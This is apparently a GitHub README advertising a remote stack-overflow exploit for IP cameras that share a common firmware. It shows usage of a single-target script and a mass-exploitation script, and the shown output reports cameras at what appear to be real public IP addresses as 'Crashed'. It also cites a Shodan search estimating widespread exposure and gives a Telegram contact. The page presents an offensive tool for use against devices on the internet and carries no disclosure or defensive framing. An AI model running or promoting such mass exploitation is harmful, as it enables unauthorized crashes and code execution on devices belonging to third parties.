 # Multiple ip-cameras remote stack overflow
Stack overflow through authorization request in the system. Code execution is possible. This vulnerability is present in many camera manufacturers that use this firmware. Perhaps the vulnerability was found before me, but I have not heard anything about this vulnerability

# Usage exp.py:
```root@kali:~/ipcam-overflow# python3 exp.py 177.139.57.124 8181
[*]Stack overflow in ip-cameras xD
[i]Exploit created and tested by @NotEth1calHack3r

[i]Checking: 177.139.57.124
[✓]Online!
[=]Connecting
[>]Sending payload
[✓]Crashed :/
```

# Usage masspwn3r.py:
```root@kali:~/ipcam-overflow# python3 masspwn3r.py list.txt 8081
[*]Mass stack overflow in ip-cameras :0
[i]Exploit created and tested by @NotEth1calHack3r

[×]Offline 115.22.84.200
[×]Offline 121.141.117.218
[i]Not vulnerable 96.232.177.2
[i]Not vulnerable 121.121.80.6
[i]Not vulnerable 121.121.80.6
[✓]Crashed 177.188.38.102
[✓]Crashed 177.180.202.171
[×]Offline 211.194.40.166
[×]Offline 59.31.186.119
[i]Not vulnerable 68.107.121.55
[✓]Crashed 191.13.13.214
```

# Demo:

![alt text](https://raw.githubusercontent.com/NotEth1calHack3r/ipcam-mass_overflow/master/Screencast_12-01-2019_05_27_05%20PM.gif)

# Shodan result:
![alt text](https://raw.githubusercontent.com/NotEth1calHack3r/ipcam-mass_overflow/master/157521038127974614.png)
1/3 or 1/2 vulnerable

# Contacts:
Telegram:```@eth_hacker0x18```
